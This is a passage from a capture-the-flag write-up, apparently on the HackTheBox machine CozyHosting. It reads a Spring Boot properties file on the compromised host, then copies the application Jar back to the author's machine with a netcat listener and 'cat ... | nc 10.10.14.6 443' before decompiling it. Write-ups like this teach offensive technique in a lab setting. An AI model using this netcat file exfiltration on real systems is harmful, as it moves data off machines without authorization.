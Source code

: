     app@cozyhosting:/dev/shm$ cat BOOT-INF/classes/application.properties 
    server.address=127.0.0.1
    server.servlet.session.timeout=5m
    management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
    management.endpoint.sessions.enabled = true
    spring.datasource.driver-class-name=org.postgresql.Driver
    spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
    spring.jpa.hibernate.ddl-auto=none
    spring.jpa.database=POSTGRESQL
    spring.datasource.platform=postgres
    spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
    spring.datasource.username=postgres
    

It’s the database connection information.

#### jd-gui

I’ll start `nc` listening forwarding any output to `cloudhosting-0.0.1.jar` on
my host:

    
    
    oxdf@hacky$ nc -lnvp 443 > cloudhosting-0.0.1.jar
    Listening on 0.0.0.0 443
    

On CozyHosting, I’ll send the Jar into `nc` back to my host:

    
    
    app@cozyhosting:/dev/shm$ cat cloudhosting-0.0.1.jar | nc 10.10.14.6 443
    

This hangs, but on my host it shows a connection:

    
    
    oxdf@hacky$ nc -lnvp 443 > cloudhosting-0.0.1.jar
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.230 48534
    

After a few seconds, I’ll kill it on my side, and make sure the `md5sum` of
the two files matches.

I’ll I’ll download the [jd-gui](https://java-decompiler.github.io/) Jar file
and run it with `java -jar jd-gui-1.6.6.jar`, opening the Jar file. The
`htb.cloudhosting.CozyHostingApp` class just starts the Spring Boot
application:

![image-20240227124935411](../img/image-20240227124935411.png)
